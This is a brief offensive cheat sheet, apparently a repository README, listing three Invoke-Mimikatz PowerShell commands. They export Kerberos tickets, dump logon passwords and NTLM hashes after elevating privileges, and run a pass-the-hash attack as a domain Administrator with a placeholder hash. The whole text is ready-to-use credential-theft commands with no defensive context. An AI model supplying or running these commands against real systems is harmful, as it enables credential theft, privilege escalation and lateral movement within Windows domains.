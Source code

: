 ## Mimikatz dump tickets


```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
## Mimikatz dump NTLM hashes

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Mimikatz pass the hashes

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:some.domain.local /ntlm:brydaafdsafd3524frw4fe4f /run:powershell.exe"'
```
